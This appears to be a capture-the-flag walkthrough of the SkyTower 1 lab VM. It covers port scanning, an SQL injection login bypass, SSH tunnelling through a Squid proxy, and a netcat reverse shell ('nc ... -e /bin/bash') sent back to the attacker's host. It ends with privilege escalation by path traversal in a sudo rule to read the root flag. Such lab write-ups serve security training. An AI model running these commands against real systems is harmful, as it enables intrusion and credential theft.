

SkyTower: 1
Service discovery:
First, I fired up HaGashash in order to gain some information about which host to attack and what interesting services run there. (https://github.com/Gandosha/HaGashash).
[GandoPC ~]# go run go/src/github.com/Gandosha/HaGashash/main.go -interface=enp0s3 -project=SkyTower -subnet=true <-=|HaGashash by Gandosha|=-> [+] nmap executable is in '/usr/bin/nmap' [+] ifconfig executable is in '/usr/bin/ifconfig' [!] Dependencies check is completed successfully. [!] Starting to scan your subnet. [+] Alive hosts in 192.168.43.0/24 are: 192.168.43.1 192.168.43.2 192.168.43.3 192.168.43.4 [+] Directory created at: /HaGashash_Projects/SkyTower/192.168.43.1. [!] Starting to scan 192.168.43.1 for TCP interesting stuff. [!] Starting to scan 192.168.43.1 for UDP interesting stuff. [+] Directory created at: /HaGashash_Projects/SkyTower/192.168.43.2. [!] Starting to scan 192.168.43.2 for TCP interesting stuff. [!] Starting to scan 192.168.43.2 for UDP interesting stuff. [+] Directory created at: /HaGashash_Projects/SkyTower/192.168.43.3. [!] Starting to scan 192.168.43.3 for TCP interesting stuff. [!] Starting to scan 192.168.43.3 for UDP interesting stuff. [+] Directory created at: /HaGashash_Projects/SkyTower/192.168.43.4. [!] Starting to scan 192.168.43.4 for UDP interesting stuff. [!] Starting to scan 192.168.43.4 for TCP interesting stuff. [+] Nmap's TCP script scanning on 192.168.43.4 is completed successfully. [+] Nmap's UDP script scanning on 192.168.43.4 is completed successfully. [+] Nmap's TCP script scanning on 192.168.43.3 is completed successfully. [+] Nmap's TCP script scanning on 192.168.43.1 is completed successfully. [+] Nmap's TCP script scanning on 192.168.43.2 is completed successfully. [+] Nmap's UDP script scanning on 192.168.43.3 is completed successfully. [+] Nmap's UDP script scanning on 192.168.43.2 is completed successfully. [+] Nmap's UDP script scanning on 192.168.43.1 is completed successfully. [+] Summary file for 192.168.43.4 is ready. [+] Summary file for 192.168.43.3 is ready. [+] Summary file for 192.168.43.2 is ready. [+] Summary file for 192.168.43.1 is ready. [GandoPC 192.168.43.4]# cat nmap_TCP_scan_output # Nmap 7.70 scan initiated Tue Oct 23 23:59:22 2018 as: nmap -sS -p- -A -T4 -Pn -vv -oN /HaGashash_Projects/SkyTower/192.168.43.4/nmap_TCP_scan_output 192.168.43.4 Nmap scan report for 192.168.43.4 Host is up, received arp-response (0.0010s latency). Scanned at 2018-10-23 23:59:33 IDT for 152s Not shown: 65532 closed ports Reason: 65532 resets PORT STATE SERVICE REASON VERSION 22/tcp filtered ssh no-response 80/tcp open http syn-ack ttl 64 Apache httpd 2.2.22 ((Debian)) | http-methods: |_ Supported Methods: GET HEAD POST OPTIONS |_http-server-header: Apache/2.2.22 (Debian) |_http-title: Site doesn't have a title (text/html). 3128/tcp open http-proxy syn-ack ttl 64 Squid http proxy 3.1.20 |_http-server-header: squid/3.1.20 |_http-title: ERROR: The requested URL could not be retrieved MAC Address: 08:00:27:64:6F:F1 (Oracle VirtualBox virtual NIC) Device type: general purpose Running: Linux 3.X OS CPE: cpe:/o:linux:linux_kernel:3 OS details: Linux 3.2 - 3.16 TCP/IP fingerprint: OS:SCAN(V=7.70%E=4%D=10/24%OT=80%CT=1%CU=44096%PV=Y%DS=1%DC=D%G=Y%M=080027% OS:TM=5BCF8C4E%P=x86_64-unknown-linux-gnu)SEQ(SP=104%GCD=1%ISR=10C%TI=Z%CI= OS:I%II=I%TS=8)OPS(O1=M5B4ST11NW4%O2=M5B4ST11NW4%O3=M5B4NNT11NW4%O4=M5B4ST1 OS:1NW4%O5=M5B4ST11NW4%O6=M5B4ST11)WIN(W1=3890%W2=3890%W3=3890%W4=3890%W5=3 OS:890%W6=3890)ECN(R=Y%DF=Y%T=40%W=3908%O=M5B4NNSNW4%CC=Y%Q=)T1(R=Y%DF=Y%T= OS:40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R% OS:O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=4 OS:0%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0% OS:Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R= OS:Y%DFI=N%T=40%CD=S) Uptime guess: 198.049 days (since Sun Apr 8 22:52:02 2018) Network Distance: 1 hop TCP Sequence Prediction: Difficulty=260 (Good luck!) IP ID Sequence Generation: All zeros TRACEROUTE HOP RTT ADDRESS 1 1.01 ms 192.168.43.4 Read data files from: /usr/bin/../share/nmap OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . # Nmap done at Wed Oct 24 00:02:06 2018 -- 1 IP address (1 host up) scanned in 175.76 seconds
Port 80 check:
Attempt to access via http port 80:
Fuzzing directories on http port 80:
===================================================== Gobuster v2.0.1 OJ Reeves (@TheColonial) ===================================================== [+] Mode : dir [+] Url/Domain : http://192.168.43.4/ [+] Threads : 10 [+] Wordlist : /home/gandosha/Desktop/SecLists/Discovery/Web-Content/raft-large.txt [+] Status codes : 200,204,301,302,307,403 [+] Timeout : 10s ===================================================== 2018/10/24 14:09:24 Starting gobuster ===================================================== /index (Status: 200) /background (Status: 200) /server-status (Status: 403) /login.php (Status: 200) /index.html (Status: 200) /.htaccess (Status: 403) /. (Status: 200) /.html (Status: 403) /.php (Status: 403) /.htpasswd (Status: 403) /.htm (Status: 403) /.htpasswds (Status: 403) /.htgroup (Status: 403) /wp-forum.phps (Status: 403) /.htaccess.bak (Status: 403) /.htuser (Status: 403) /.ht (Status: 403) /.htc (Status: 403) /.htacess (Status: 403) /.htaccess.old (Status: 403) /.php (Status: 403) /.html (Status: 403) /index (Status: 200) /.htm (Status: 403) /. (Status: 200) /.htaccess (Status: 403) /.php3 (Status: 403) /.phtml (Status: 403) /.htc (Status: 403) /background (Status: 200) /.php5 (Status: 403) /.html_var_DE (Status: 403) /.php4 (Status: 403) /server-status (Status: 403) /.htpasswd (Status: 403) /.html. (Status: 403) /.html.html (Status: 403) /.htpasswds (Status: 403) /.htm. (Status: 403) /.phps (Status: 403) /.htmll (Status: 403) /.html.old (Status: 403) /.ht (Status: 403) /.html.bak (Status: 403) /.htm.htm (Status: 403) /.hta (Status: 403) /.htgroup (Status: 403) /.html1 (Status: 403) /.html.printable (Status: 403) /.html.LCK (Status: 403) /.htm.LCK (Status: 403) /.html.php (Status: 403) /.htmls (Status: 403) /.htaccess.bak (Status: 403) /.htx (Status: 403) /.htm2 (Status: 403) /.htlm (Status: 403) /.html- (Status: 403) /.htuser (Status: 403) /.htacess (Status: 403) /.htm.html (Status: 403) /.hts (Status: 403) /.htm.old (Status: 403) /.html.sav (Status: 403) /.htm.d (Status: 403) /.html_files (Status: 403) /.html-1 (Status: 403) /.html_ (Status: 403) /.htmlpar (Status: 403) /.html.orig (Status: 403) /.htmlprint (Status: 403) /.htm5 (Status: 403) /.htm3 (Status: 403) /.htaccess.old (Status: 403) /.htm7 (Status: 403) /.htm8 (Status: 403) /.html-0 (Status: 403) /.html-- (Status: 403) /.htm.bak (Status: 403) /.htm.rc (Status: 403) /.html-2 (Status: 403) /.html-c (Status: 403) /.htm_ (Status: 403) /.html.htm (Status: 403) /.html.pdf (Status: 403) /.html-p (Status: 403) /.html-old (Status: 403) /.html.start (Status: 403) /.html4 (Status: 403) /.html.txt (Status: 403) /.htmlDolmetschen (Status: 403) /.htmlBAK (Status: 403) /.html5 (Status: 403) /.html7 (Status: 403) /.htmlfeed (Status: 403) /.html.none (Status: 403) /.html.images (Status: 403) /.html.inc (Status: 403) /.htmla (Status: 403) /.htmlc (Status: 403) /.html_old (Status: 403) /.htmlu (Status: 403) /.htmlq (Status: 403) /.htn (Status: 403) /.pht (Status: 403) ===================================================== 2018/10/24 14:18:28 Finished =====================================================
Port 3128 check:
Attempt to access via http port 3128:
Fuzzing directories on http port 3128:
===================================================== Gobuster v2.0.1 OJ Reeves (@TheColonial) ===================================================== [+] Mode : dir [+] Url/Domain : http://192.168.43.4:3128/ [+] Threads : 10 [+] Wordlist : /home/gandosha/Desktop/SecLists/Discovery/Web-Content/raft-large.txt [+] Status codes : 200,204,301,302,307,403 [+] Timeout : 10s ===================================================== 2018/10/24 14:09:17 Starting gobuster ===================================================== ===================================================== 2018/10/24 14:31:07 Finished =====================================================
Not something new.
SQL injection (login bypass and account enumeration):
First, I tried to bypass the login interface using the following http request:
The web application filters "or", so I tried this one:
It worked. I got SSH credentials for john.
Next, I tried to use this interface in order to expose other users on the system.
Two users and their passwords were discoverd - sara and william:

[GandoPC 192.168.43.4]# echo 'john:hereisjohn' > creds_ssh [GandoPC 192.168.43.4]# echo 'william:senseable' >> creds_ssh [GandoPC 192.168.43.4]# echo 'sara:ihatethisjob' >> creds_ssh [GandoPC 192.168.43.4]# cat creds_ssh john:hereisjohn william:senseable sara:ihatethisjob
It is nice to have SSH credentails, but the port is filtered according to Nmap's output.
Filtered SSH port bypass:
Port 3128 is a squid proxy. I could use it in order to tunnel my traffic through this port.
I edited my /etc/proxychains.conf to do so:
Then, I tried to establish a SSH connection using john's credentials:
[GandoPC 192.168.43.4]# proxychains ssh john@127.0.0.1 [proxychains] config file found: /etc/proxychains.conf [proxychains] preloading /usr/lib/libproxychains4.so [proxychains] DLL init: proxychains-ng 4.13 [proxychains] Strict chain ... 192.168.43.4:3128 ... 127.0.0.1:22 ... OK john@127.0.0.1's password: Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64 The programs included with the Debian GNU/Linux system are free software; the exact distribution terms for each program are described in the individual files in /usr/share/doc/*/copyright. Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent permitted by applicable law. Last login: Fri Jun 20 07:41:08 2014 Funds have been withdrawn Connection to 127.0.0.1 closed.
The connection established but it is disconnected immediately.
So, I tried to connect with sara and william:
[GandoPC 192.168.43.4]# proxychains ssh william@127.0.0.1 [proxychains] config file found: /etc/proxychains.conf [proxychains] preloading /usr/lib/libproxychains4.so [proxychains] DLL init: proxychains-ng 4.13 [proxychains] Strict chain ... 192.168.43.4:3128 ... 127.0.0.1:22 ... OK william@127.0.0.1's password: Permission denied, please try again. william@127.0.0.1's password: Permission denied, please try again. william@127.0.0.1's password: [GandoPC 192.168.43.4]# proxychains ssh sara@127.0.0.1 [proxychains] config file found: /etc/proxychains.conf [proxychains] preloading /usr/lib/libproxychains4.so [proxychains] DLL init: proxychains-ng 4.13 [proxychains] Strict chain ... 192.168.43.4:3128 ... 127.0.0.1:22 ... OK sara@127.0.0.1's password: Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64 The programs included with the Debian GNU/Linux system are free software; the exact distribution terms for each program are described in the individual files in /usr/share/doc/*/copyright. Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent permitted by applicable law. Last login: Fri Jun 20 08:19:23 2014 from localhost Funds have been withdrawn Connection to 127.0.0.1 closed.
The credentials for william were incorrect and I had the same disconnection problem with sara.
In order to bypass this restriction too, I had to execute a nc command at the moment the SSH connects:
[GandoPC 192.168.43.4]# proxychains ssh john@127.0.0.1 nc 192.168.43.3 4444 -e /bin/bash [proxychains] config file found: /etc/proxychains.conf [proxychains] preloading /usr/lib/libproxychains4.so [proxychains] DLL init: proxychains-ng 4.13 [proxychains] Strict chain ... 192.168.43.4:3128 ... 127.0.0.1:22 ... OK john@127.0.0.1's password:
[gandosha@GandoPC 192.168.43.4]$ ncat -lvnp 4444 Ncat: Version 7.70 ( https://nmap.org/ncat ) Ncat: Listening on :::4444 Ncat: Listening on 0.0.0.0:4444 Ncat: Connection from 192.168.43.4. Ncat: Connection from 192.168.43.4:56337. whoami john pwd /home/john
Privilege escalation and capturing the flag:
I got a stable connection and I started to enumerate john's privileges:
[gandosha@GandoPC 192.168.43.4]$ ncat -lvnp 4444 Ncat: Version 7.70 ( https://nmap.org/ncat ) Ncat: Listening on :::4444 Ncat: Listening on 0.0.0.0:4444 Ncat: Connection from 192.168.43.4. Ncat: Connection from 192.168.43.4:56337. whoami john pwd /home/john ls -aul total 24 drwx------ 2 john john 4096 Oct 25 11:40 . drwxr-xr-x 5 root root 4096 Jun 20 2014 .. -rw------- 1 john john 7 Oct 25 11:15 .bash_history -rw-r--r-- 1 john john 220 Oct 25 11:15 .bash_logout -rw-r--r-- 1 john john 3437 Oct 25 11:15 .bashrc -rw-r--r-- 1 john john 675 Oct 25 11:15 .profile cat .bash_history ls -la cd ../;ls -aul total 20 drwxr-xr-x 5 root root 4096 Oct 25 11:40 . drwxr-xr-x 24 root root 4096 Oct 25 10:47 .. drwx------ 2 john john 4096 Oct 25 11:40 john drwx------ 2 sara sara 4096 Jun 20 2014 sara drwx------ 2 william william 4096 Jun 20 2014 william cd /tmp;ls -aul total 8 drwxrwxrwt 2 root root 4096 Oct 25 11:41 . drwxr-xr-x 24 root root 4096 Oct 25 10:47 .. cat /etc/issue Welcome to the SkyTower, try to gain access to the flag.txt file in the /root/ directory id uid=1000(john) gid=1000(john) groups=1000(john) cat /etc/passwd root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/bin/sh bin:x:2:2:bin:/bin:/bin/sh sys:x:3:3:sys:/dev:/bin/sh sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/bin/sh man:x:6:12:man:/var/cache/man:/bin/sh lp:x:7:7:lp:/var/spool/lpd:/bin/sh mail:x:8:8:mail:/var/mail:/bin/sh news:x:9:9:news:/var/spool/news:/bin/sh uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh proxy:x:13:13:proxy:/bin:/bin/sh www-data:x:33:33:www-data:/var/www:/bin/sh backup:x:34:34:backup:/var/backups:/bin/sh list:x:38:38:Mailing List Manager:/var/list:/bin/sh irc:x:39:39:ircd:/var/run/ircd:/bin/sh gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh nobody:x:65534:65534:nobody:/nonexistent:/bin/sh libuuid:x:100:101::/var/lib/libuuid:/bin/sh sshd:x:101:65534::/var/run/sshd:/usr/sbin/nologin mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false john:x:1000:1000:john,,,:/home/john:/bin/bash sara:x:1001:1001:,,,:/home/sara:/bin/bash william:x:1002:1002:,,,:/home/william:/bin/bash
No interesting findings there.
I decided to switch to sara's account and enumerate the target again:
[GandoPC 192.168.43.4]# proxychains ssh sara@127.0.0.1 nc 192.168.43.3 4444 -e /bin/bash [proxychains] config file found: /etc/proxychains.conf [proxychains] preloading /usr/lib/libproxychains4.so [proxychains] DLL init: proxychains-ng 4.13 [proxychains] Strict chain ... 192.168.43.4:3128 ... 127.0.0.1:22 ... OK sara@127.0.0.1's password:
[gandosha@GandoPC 192.168.43.4]$ ncat -lvnp 4444
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 192.168.43.4.
Ncat: Connection from 192.168.43.4:56342.
id
uid=1001(sara) gid=1001(sara) groups=1001(sara)
pwd
/home/sara
ls -aul
total 20
drwx------ 2 sara sara 4096 Oct 25 11:51 .
drwxr-xr-x 5 root root 4096 Oct 25 11:40 ..
-rw-r--r-- 1 sara sara 220 Oct 25 11:16 .bash_logout
-rw-r--r-- 1 sara sara 3437 Oct 25 11:16 .bashrc
-rw-r--r-- 1 sara sara 675 Oct 25 11:16 .profile
ls -aul
total 20
drwx------ 2 sara sara 4096 Oct 25 11:51 .
drwxr-xr-x 5 root root 4096 Oct 25 11:40 ..
-rw-r--r-- 1 sara sara 220 Oct 25 11:16 .bash_logout
-rw-r--r-- 1 sara sara 3437 Oct 25 11:16 .bashrc
-rw-r--r-- 1 sara sara 675 Oct 25 11:16 .profile
history
sudo -l
Matching Defaults entries for sara on this host:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User sara may run the following commands on this host:
(root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
find / -iname "accounts*" -type d
/accounts
cd /accounts;ls -aul
total 8
drwxr-xr-x 2 root root 4096 Oct 25 11:54 .
drwxr-xr-x 24 root root 4096 Oct 25 10:47 ..
touch test;ls -aul
total 8
drwxr-xr-x 2 root root 4096 Oct 25 11:54 .
drwxr-xr-x 24 root root 4096 Oct 25 10:47 ..
sudo /bin/ls /accounts/../../../root
flag.txt
sudo /bin/cat /accounts/../../../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
Got the flag but I had to make sure that it is not a decoy:
[GandoPC 192.168.43.4]# proxychains ssh root@127.0.0.1 nc 192.168.43.3 4444 -e /bin/bash [proxychains] config file found: /etc/proxychains.conf [proxychains] preloading /usr/lib/libproxychains4.so [proxychains] DLL init: proxychains-ng 4.13 [proxychains] Strict chain ... 192.168.43.4:3128 ... 127.0.0.1:22 ... OK root@127.0.0.1's password:
[gandosha@GandoPC 192.168.43.4]$ ncat -lvnp 4444 Ncat: Version 7.70 ( https://nmap.org/ncat ) Ncat: Listening on :::4444 Ncat: Listening on 0.0.0.0:4444 Ncat: Connection from 192.168.43.4. Ncat: Connection from 192.168.43.4:56345. whoami root id uid=0(root) gid=0(root) groups=0(root) pwd /root cat flag.txt Congratz, have a cold one to celebrate! root password is theskytower